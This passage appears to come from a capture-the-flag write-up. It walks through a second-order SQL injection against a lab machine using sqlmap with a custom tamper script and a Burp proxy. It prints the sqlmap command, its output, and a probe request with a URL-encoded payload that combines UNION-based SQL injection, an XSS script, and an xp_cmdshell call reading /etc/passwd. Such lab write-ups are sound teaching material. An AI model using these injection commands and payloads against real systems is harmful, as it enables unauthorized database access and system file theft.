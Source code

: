     
    
    root@kali# sqlmap --technique=U -r login.request --dbms mysql --tamper tamper-nightmare.py --second-order 'http://10.10.10.66/notes.php' -p user --proxy http://127.0.0.1:8080
            ___
           __H__
     ___ ___[)]_____ ___ ___  {1.2.6#stable}
    |_ -| . ["]     | .'| . |
    |___|_  [,]_|_|_|__,|  _|
          |_|V          |_|   http://sqlmap.org
    
    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
    
    [*] starting at 21:05:01
    
    [21:05:01] [INFO] parsing HTTP request from 'login.request'
    [21:05:01] [INFO] loading tamper module 'tamper-nightmare'
    [21:05:02] [INFO] testing connection to the target URL
    sqlmap got a 302 redirect to 'http://10.10.10.66/index.php'. Do you want to follow? [Y/n]
    

Up to this point, we can see in burp that two queries have been sent - a POST
to `/index.php` to login, which returns a ‘Wrong username or password’ message
because the user doesn’t exist, followed by a GET request to `/notes.php`,
which returned a 302 redirect to `/index.php` because there’s no active
session. But even if we had successfully logged in, we don’t need to follow
that redirect, as we’ll be making the second-order visit to `/notes.php` for
each query. So we’ll select `n`.

The script continues:

    
    
    [21:07:17] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
    

The WAF/IPS/IDS check consists of a funky POST to `index.php`:

    
    
    POST /index.php?Gbya=8703%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23 HTTP/1.1
    Content-Length: 38
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Host: 10.10.10.66
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0
    Connection: close
    Cookie: PHPSESSID=shhaht5gkik3dtiq6ijf9bpe26
    Referer: http://10.10.10.66/index.php
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    